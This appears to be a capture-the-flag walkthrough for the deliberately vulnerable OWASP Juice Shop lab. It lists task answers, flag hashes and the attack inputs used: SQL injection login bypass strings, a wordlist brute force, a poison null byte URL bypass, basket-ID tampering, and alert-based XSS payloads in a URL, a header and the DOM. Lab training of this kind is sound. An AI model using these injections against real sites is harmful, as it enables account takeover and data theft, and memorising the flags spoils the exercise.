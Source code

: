 # OWASP Juice Shop


<details>
  <summary>Let's go on an adventure!</summary>

> ### Question #1: What's the Administrator's email address?

![image](https://github.com/user-attachments/assets/fb9c95d0-cdcf-40af-aafe-c9e7f277e950)

```email
admin@juice-sh.op
```

> ### Question #2: What parameter is used for searching? 

![image](https://github.com/user-attachments/assets/47062e0b-902d-46cb-91e7-bdc0eb7eb09c)


```java
q
```


> ### **Question #3: What show does Jim reference in his review?**

![image](https://github.com/user-attachments/assets/0c74ae57-65a4-465e-9451-4fdcc790bd74)

If we google "replicator" we will get the results indicating that it is from a TV show called Star Trek

![image](https://github.com/user-attachments/assets/1b0f3374-3ee6-47a6-9113-e77c3ce74379)


```
Star Trek
```

  
</details>





<details>
  <summary>Inject the juice</summary>

> ### Question #1: Log into the administrator account!

![image](https://github.com/user-attachments/assets/ee52bdd5-2a3d-4c7e-93df-c4e8612f8699)

```email
admin@juice-sh.op' OR 1=1-- -
```
or just

```sql
' OR 1=1-- -
```

![image](https://github.com/user-attachments/assets/92f6c8bd-9f49-451f-81a2-b388526365d4)

```
32a5e0f21372bcc1000a6088b93b458e41f0e02a
```


> ### Question #2: Log into the Bender account!

```
bender@juice-sh.op'-- -
```

![image](https://github.com/user-attachments/assets/bb505c8b-e8ef-468a-a90e-0ae7f377cc5f)



```
fb364762a3c102b2db932069c0e6b78e738d4066
```


  
</details>








<details>
  <summary>Who broke my lock?!</summary>


> ### Question #1: Bruteforce the Administrator account's password!

**wordlist**

``/usr/share/wordlists/SecLists/Passwords/Common-Credentials/best1050.txt``




   ![image](https://github.com/user-attachments/assets/17955eca-2cfe-4bf1-8d79-4e8b2fd7eca3)

   ![image](https://github.com/user-attachments/assets/287e80bf-09f7-41c9-9269-e6c9729d450f)


```
admin@juice-sh.op
```

```
admin123
```

```
c2110d06dc6f81c67cd8099ff0ba601241f1ac0e
```


> ### Question #2: Reset Jim's password!

```
jim@juice-sh.op
```

> your eldest siblings middle name?

[wikipedia](https://en.wikipedia.org/wiki/James_T._Kirk)

![image](https://github.com/user-attachments/assets/16100be3-3c0d-44c7-af61-080d4a45828a)

```
Samuel
```

![image](https://github.com/user-attachments/assets/1ab2bfda-b60e-41c3-9bfc-96bd22761475)


```
094fbc9b48e525150ba97d05b942bbf114987257
```




  
</details>











<details>
  <summary>AH! Don't look!</summary>


> ### Question #1: Access the Confidential Document!

![image](https://github.com/user-attachments/assets/aab92077-eb67-4a97-a9cb-c3b8a4e38ff8)

![image](https://github.com/user-attachments/assets/e2bd7984-0fd7-4dde-bcf1-0f2c5300fb8c)

Notice ``http://10.10.133.134/ftp/legal.md``

what if ??!!

```
http://10.10.133.134/ftp/
```

![image](https://github.com/user-attachments/assets/cc3c00bc-0cef-405a-9155-58e081865705)


> ### Question #2: Log into MC SafeSearch's account!

```
mc.safesearch@juice-sh.op
```

```
Mr. N00dles
```


```
66bdcffad9e698fd534003fbb3cc7e2b7b55d7f0
```


> ### Question #3: Download the Backup file!

```
http://10.10.133.134/ftp/package.json.bak
```

![image](https://github.com/user-attachments/assets/f2472569-7633-455f-8ffd-9d5837fc4c67)

```
http://10.10.133.134/ftp/package.json.bak%20%2500.md
```

To get around this, we will use a character bypass called "Poison Null Byte". A Poison Null Byte looks like this: %00. 

Note: as we can download it using the url, we will need to encode this into a url encoded format.

The Poison Null Byte will now look like this: %2500. Adding this and then a .md to the end will bypass the 403 error!

Why does this work? 

A Poison Null Byte is actually a NULL terminator. By placing a NULL character in the string at a certain byte, the string will tell the server to terminate at that point, nulling the rest of the string. 

  
</details>







<details>
  <summary>Who's flying this thing?</summary>


> ### Question #1: Access the administration page!

> `inspect` > `Debugger` > `main-es2015.js` 


![image](https://github.com/user-attachments/assets/5216514e-3652-40e2-9e54-91818c315986)


![image](https://github.com/user-attachments/assets/54c08f1f-5d37-431c-b7e6-8a836e17f5e4)

```
http://10.10.133.134/#/administration
```

![image](https://github.com/user-attachments/assets/3ee9ae6d-fdf1-4fb3-a5f9-82c85c4ffeaa)



```
946a799363226a24822008503f5d1324536629a0
```


> ### Question #2: View another user's shopping basket!



![image](https://github.com/user-attachments/assets/fffd8b1c-363b-460e-8d6d-6334922d12f3)

intercept the request using burp

![image](https://github.com/user-attachments/assets/827be8b4-7962-4593-9f00-6fe4fe92967e)

notice

```http
GET /rest/basket/1 HTTP/1.1

Host: 10.10.133.134
```

try to change `/rest/basket/1` to `/rest/basket/2`

![image](https://github.com/user-attachments/assets/353baa0c-d13c-4058-9a28-71665c03a61b)


```
41b997a36cc33fbe4f0ba018474e19ae5ce52121
```

> ### Question #3: Remove all 5-star reviews!




Navigate to the  `http://10.10.133.134/#/administration` page again and click the bin icon next to the review with 5 stars!


![image](https://github.com/user-attachments/assets/ca0523e4-0acf-48f6-b8a1-fd7645feed60)


![image](https://github.com/user-attachments/assets/ad5e5447-5ad6-47fa-a38c-22c676f45397)


```
50c97bcce0b895e446d61c83a21df371ac2266ef
```

  
</details>





<details>
  <summary>Where did that come from?</summary>


> ### Question #1: Perform a DOM XSS!

```
<iframe src="javascript:alert(`xss`)"> 
```

```
9aaf4bbea5c30d00a1f5bbcfce4db6d4b0efe0bf
```


> ### Question #2: Perform a persistent XSS!


Make sure that Burp intercept is on, so it will catch the logout request.

We will then head over to the Headers tab where we will add a new header:

```http
True-Client-IP                    <iframe src="javascript:alert(`xss`)">
```


![image](https://github.com/user-attachments/assets/85af40a9-035b-41aa-9df8-85d86fd92837)


```
149aa8ce13d7a4a8a931472308e269c94dc5f156
```


The True-Client-IP  header is similar to the X-Forwarded-For header, both tell the server or proxy what the IP of the client is. Due to there being no sanitation in the header we are able to perform an XSS attack. 




> ### Question #3: Perform a reflected XSS!

![image](https://github.com/user-attachments/assets/c28c2f92-1f0c-4d74-826c-2bf82f5faa49)

Login into the admin account and navigate to the 'Order History' page. 

> `Orders & Payments` > `Order History`

![image](https://github.com/user-attachments/assets/77cc5033-cb21-43c8-9761-64b3f85ebacb)



From there you will see a `"Truck"` icon, clicking on that will bring you to the track result page. You will also see that there is an id paired with the order.  

```url
http://10.10.133.134/#/track-result?id=5267-0429ae444373b967
```

```
http://10.10.133.134/#/track-result?id=<iframe src="javascript:alert(`xss`)">
```

![image](https://github.com/user-attachments/assets/aeb547c1-695d-4081-9897-0dead7bf9b0f)


```
23cefee1527bde039295b2616eeb29e1edc660a0
```




  
</details>



<details>
  <summary>Exploration!</summary>


> ### Access the /#/score-board/ page

![image](https://github.com/user-attachments/assets/608c8221-c68e-42ab-a3f6-19761debed18)


```
7efd3174f9dd5baa03a7882027f2824d2f72d86e
```


  
</details>





> [!Caution]
> #### there are more vulnerablities in  OWASP Juice Shop you can discover


```
http://10.10.133.134/#/score-board
```

























